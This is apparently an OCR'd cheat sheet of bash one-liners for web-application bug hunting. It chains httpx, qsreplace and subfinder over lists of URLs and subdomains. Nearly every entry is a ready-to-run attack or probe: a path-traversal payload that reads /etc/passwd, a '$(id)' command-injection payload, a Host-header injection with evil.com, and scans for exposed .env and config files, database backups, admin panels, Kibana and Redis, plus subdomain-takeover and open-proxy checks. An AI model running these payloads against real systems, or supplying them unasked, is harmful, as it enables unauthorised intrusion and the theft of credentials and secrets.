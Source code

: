 Find Local File Inclusion (LFI)
```bash
cat urls.txt | qsreplace '../../../../../../../../etc/passwd' | httpx -silent -fr 'root:x:' -o lfi_found.txt
```

Open Directory Listing
```bash
cat subdomains.txt | httpx -silent -mc 200 -fr 'Index of' -o open_directory_listing.txt
```

Find Open Kibana Dashboards (Internal Leaks)
```bash
cat subdomains.txt | httpx -silent -path /app/kibana -mc 200 -o open_kibana.txt
```

Subdomain Takeover (Check NXDOMAIN)
```bash
subfinder -d target.com | httpx -silent -sc -o subs_status.txt
cat subs_status.txt | grep 'NXDOMAIN' > takeover_candidates.txt
```

Test for Host Header Injection
```bash
cat urls.txt | httpx -silent -H "Host: evil.com" -fr 'evil.com' -o host_header_injection.txt
```

Exposed Config Files
```bash
cat subdomains.txt | httpx -silent -path-list <(echo -e '/config.php\n/settings.py\n/.env\n/config.json') -mc 200 -o exposed_configs.txt
```

Detecting Exposed Admin Panels
```bash
cat subdomains.txt | httpx -silent -path-list <(echo -e '/admin\n/wp-admin\n/console\n/dashboard') -mc 200 -o admin_panels.txt
```

Command Injection Test
```bash
cat urls.txt | qsreplace '$(id)' | httpx -silent -fr 'uid=' -o command_injection.txt
```

Check for Backup Files (Old Configs)
```bash
cat subdomains.txt | httpx -silent -path-list <(echo -e '/backup.zip\n/db_backup.sql\n/config.old') -mc 200 -o backup_files_found.txt
```

Check for Open Redis Instances
```bash
cat subdomains.txt | httpx -silent -path / -p 6379 -o open_redis_instances.txt
```

Test for Open Proxy Misconfiguration
```bash
curl -x http://target.com http://example.com -v
```

